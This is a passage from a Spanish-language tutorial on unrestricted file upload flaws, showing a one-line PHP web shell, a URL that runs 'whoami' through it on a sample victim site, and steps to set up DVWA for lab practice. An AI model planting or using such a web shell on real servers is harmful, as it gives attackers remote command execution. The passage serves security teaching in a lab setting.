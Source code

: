 ✅ Permite subir cualquier archivo sin verificar qué tipo es, ni validarlo.

---

#### ☠️ Ejemplo de ataque

Subimos un archivo llamado:

```
shell.php
```

Contenido del archivo:

```php
<?php system($_GET["cmd"]); ?>
```

Una vez subido, el atacante accede a:

```
http://victima.com/uploads/shell.php?cmd=whoami
```

✅ El servidor ejecuta comandos del sistema por el navegador. 🔥

---

### ⚙️ ¿Cómo explotar esta vulnerabilidad? (En laboratorio)

#### 🧪 Paso 1: Instalar entorno vulnerable

Usaremos **DVWA** (Damn Vulnerable Web Application):

---

##### ✅ A. Instalar DVWA (en Windows con XAMPP)

1. Instala [XAMPP](https://www.apachefriends.org/es/index.html)
2. Descarga DVWA desde GitHub:
   👉 [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)
3. Copia la carpeta `dvwa` a:

```
C:\xampp\htdocs\
```

4. Abre navegador:

   ```
   http://localhost/dvwa
   ```

5. Configura la base de datos:

   - Ve a: `http://localhost/dvwa/setup.php`
   - Haz clic en: “Create/Reset Database”

6. Ingresa con usuario: `admin` / `password`

7. En **DVWA Security** pon el nivel en **Low**

---